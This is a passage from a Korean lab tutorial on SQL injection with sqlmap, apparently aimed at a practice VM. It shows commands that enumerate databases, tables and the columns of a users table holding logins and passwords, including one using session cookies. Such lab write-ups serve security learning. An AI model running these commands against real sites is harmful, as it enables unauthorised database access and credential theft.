 

사전에 DBMS정보를 알고 있는 경우는 다음 명령어를 사용하면 된다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" --dbms=mysql
```



#### 1.1. 데이터베이스 목록 조회

다음 명령어를 통해 데이터베이스의 목록을 조회할 수 있다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" --dbs
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/4.png){:.border.rounded} 

`--dbs`의 옵션으로 현재 웹 어플리케이션("cat.php")이 접근할 수 있는 MySQL 데이터베이스 이름을 모두 조회하였다. 조회된 데이터 베이스 중 `information_schema`는 MySQL의 시스템 카탈로그(System Catalog)이다. 따라서 이 서비스에서 사용하는 데이터베이스는 `photoblog`임을 알 수 있다.



##### 1.1.1. 쿠키값이 필요할 경우(사용 예시)

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" --cookie="security=low; PHPSESSID=letmado2cqoj2vd2i0873168h5; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" --dbs
```





#### 1.2. 테이블 목록 조회

데이터베이스의 이름을 알아내었으니 해당 데이터베이스의 테이블 목록을 조회해보자.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog --tables
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/5.png){:.border.rounded} 

`--tables` 옵션을 사용하여 categories, pictures, users 3개의 테이블 이름을 찾아내었다.



#### 1.3. 컬럼 목록 조회

회원정보는 users 테이블에 저장되어 있을 것이라고 추정가능 하기에 users 테이블의 칼럼 목록을 조회한다.

```
sqlmap -u "http://192.168.23.131/cat.php?id=1" -D photoblog -T users --columns
```

![image](http://eliez3r.synology.me/assets/img/study/db/sqlmap/6.png){:.border.rounded} 

users 테이블은 id, login, password 3개 컬럼(column)으로 구성되어 있음을 확인하였다.

이제 이 테이블을 조회하면 id, login, password의 값들을 확인 할수 있을것이다.
